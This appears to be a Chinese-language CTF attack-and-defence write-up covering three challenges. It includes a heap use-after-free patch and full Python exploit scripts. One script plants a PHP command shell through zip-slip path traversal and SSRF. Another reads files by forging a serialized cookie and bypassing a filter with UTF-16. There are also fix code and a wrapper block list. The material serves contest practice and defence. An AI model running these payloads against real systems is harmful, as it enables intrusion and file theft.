


# PWN

## catchme


### FIX

经典的菜单堆，比赛的时候为了效率没仔细逆，赛后恢复了一下变量名和结构体，大致逻辑如下：



问题出在delete函数



其中creature_list是一个结构体指针数组，指向的结构体结构类似这样：

```c
struct creature
{
  __int64 padding;
  char tag[];
};
```

delete时只将creature_list对应索引的指针free，但是没清0，而而creature_list是一个全局变量，这就可能造成UAF漏洞，使用AwdPwnPatcher脚本添加一步将`creature_list[idx]`置0的操作即可

patch.py

```py
from AwdPwnPatcher import *

awd = AwdPwnPatcher("./catchme")

asm = f"""
lea     rax, [rax+rdx]
mov     rdi, [rax]
mov     qword ptr [rax], 0
"""
awd.patch_by_jmp(0xE19, 0xE20, assembly=asm)

awd.save("./update/pwn")
```

# web

黄毅超

## easy_time

### cracker

文件上传zipslip到 /var/www/html/hello.php, 然后ssrf

```py
# create zip
import io
import zipfile
from cairo import Status
import requests

with zipfile.ZipFile("link.zip", "w") as zipf:
    zipf.writestr("../../../../../../../../../var/www/html/hello.php", "<?=system('cat //tmp/123123123_flag');") # 路径穿越，文件写
    
# url = "http://10.11.253.33:22122"
url = "http://localhost:5000"

session = requests.Session()

cookies = {
    "visited": "yes", 
    "user": "admin"
}

def dashboard():
    resp = session.get(url+'/dashboard', cookies=cookies)
    # print(resp.text)
    print(resp.status_code)
    
def upload():
    with open("link.zip", "rb") as f:
        files = {
            "plugin": ("link.zip", f)
        }
        resp = session.post(url+"/plugin/upload", files=files, cookies=cookies)
    # print(resp.text)
    print(Status)
    
def about():
    avatar = "http://localhost:80/hello.php"
    data = {
        "avatar_url" : avatar
    }
    files = {
        "avatar_file": ("a.php", io.BytesIO(b"hello"))
    }
    resp = session.post(url+"/about", data=data, cookies=cookies, files=files)
    # print(resp.text)
    print(resp.status_code)
    
dashboard()
upload()
about()
```

## MediaDrive

### cracker
序列化 User， 用 file:///flag 读文件， 检查是先过滤，然后再编码转换，然后再读，所以用utf-16就可以绕过

序列化：

```php
<?php

include "lib/User.php";

$user = new User();

$user->basePath = @iconv("UTF-8//IGNORE", "UTF-16//IGNORE", "file:///fla");

$user->encoding = "UTF-16//IGNORE";

$data = serialize($user);

file_put_contents("data", $data);
```

发数据

```python
import requests
from urllib.parse import quote
proxies = {
    "http": "http://192.168.50.1:10001"
}
url = "http://10.11.253.34:22856/preview.php"

with open("data", "rb") as f:
    data = f.read()
    
cookies = {
    "user": quote(data)
}

params = {
    "f": "g\x00"
}

res = requests.get(url=url, params=params, cookies=cookies, proxies=proxies)
print(res.status_code)
print(res.text)
```

### fix

先编码转化，再过滤，再使用。反序列化只允许User类，并过滤 file:///

```php
$user = null;
if (isset($_COOKIE['user'])) {
    $user = @unserialize($_COOKIE['user'], ["allowed_classes" => "User"]);
}
if (!$user instanceof User) {
    $user = new User("guest");
    setcookie("user", serialize($user), time() + 86400, "/");
}

$f = (string)($_GET['f'] ?? "");
if ($f === "") {
    http_response_code(400);
    echo "Missing parameter: f";
    exit;
}

$rawPath = $user->basePath . $f;

$convertedPath = @iconv($user->encoding, "UTF-8//IGNORE", $rawPath);
if ($convertedPath === false || $convertedPath === "") {
    http_response_code(500);
    echo "Conversion failed";
    exit;
}

if (preg_match('/flag|\/flag|\.\.|php:|data:|expect:|file:/i', $convertedPath)) {
    http_response_code(403);
    echo "Access denied";
    exit;
}

$content = @file_get_contents($convertedPath);
if ($content === false) {
    http_response_code(404);
    echo "Not found";
    exit;
}
```

# 渗透

## 第三届长城杯-isw

shiro反序列化，直接用工具连上 shell, `cat /flag`